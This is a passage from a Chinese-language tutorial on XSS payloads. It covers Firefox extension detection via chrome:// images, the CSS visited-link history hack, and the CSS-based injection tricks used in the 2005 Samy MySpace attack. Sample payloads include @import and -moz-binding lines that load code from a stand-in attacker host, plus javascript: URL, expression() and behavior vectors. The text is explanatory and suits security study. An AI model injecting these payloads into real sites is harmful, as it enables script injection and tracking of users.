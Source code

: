 在 FireFox 中有一个特殊的协议 `chrome://`，FireFox 的扩展图标可以通过这个协议被访问到。比如 Flash Got 扩展的图标可以这样访问：`chrome://flashgot/skin/icon32.png`。因此扫描 FireFox 扩展时，只需要在 `JavaScript` 中加载这张图片检测扩展：

```javascript
var m = new Image();
m.onload = function(){ alert("Image Exists."); };
m.onerror = function(){ alert("Image not Exists."); };

m.src = "chrome://flashgot/skin/icon32.png";
```

### `CSS` History Hack

这个 XSS Payload 可以通过 CSS，来发现一个用户曾经访问过的网站。

这个技巧最早被 Jeremiah Grossman 发现，其原理是利用 style 的 visited 属性（如果用户访问过某个链接，则这个链接颜色会不同）。

但是这个漏洞在 2010 年已经被 Mozilla 浏览器修复。

### 获取用户的真实 IP

JavaScript 本身并没有提供获取本地 IP 地址的能力。一般来说，XSS 攻击需要借助第三方软件来完成。比如如果客户端安装了 Java 环境（`JRE`），那么 XSS 就可以通过调用 Java Applet 的接口获取客户端的本地 IP 地址。

### <span id="csspayload">利用 `CSS` 构造</span>

在 2005 年，年仅 19 随的 Samy Kamkar 对 MySpace.com 发起的 XSS 攻击。就利用了这个方法进行构造。

MySpace 过滤了许多危险的 HTML 标签，只保留了 `<a>, <img>, <div>` 等安全的标签，所有的事件比如 `onclick` 等也被过滤了。允许用户控制标签的 style 属性，我们通过 style，还是有办法构造出 XSS 的。比如以下的这些方式：

1. 利用 `import` 形成 GET 请求：

   ```html
   <style>@import 'http://hackers.org/xss.css';</style>
   ```

2. 通过 `moz-binding` 嵌入 `xml` 文件（这一特性[已被标准删除](<https://docs.w3cub.com/css/-moz-binding/>)）：

   ```html
   <style>body{-moz-binding: url("http://hackers.org/xssmoz.xml#xss")}</style>
   ```

3. 通过请求背景图片或一些资源，通过伪协议执行 `javascript` 代码：

   ```html
   <div style="background:url{'javascript:alert(1)'}" />
   ```

4. 通过表达式构造 XSS:

   ```html
   <div style="width: expression(alert('xss'))" />
   ```

5. 通过 `behavior` 关键字执行 `javascript` 代码：

   ```html
   <div style="behavior: url(xss.htc)" />
   ```
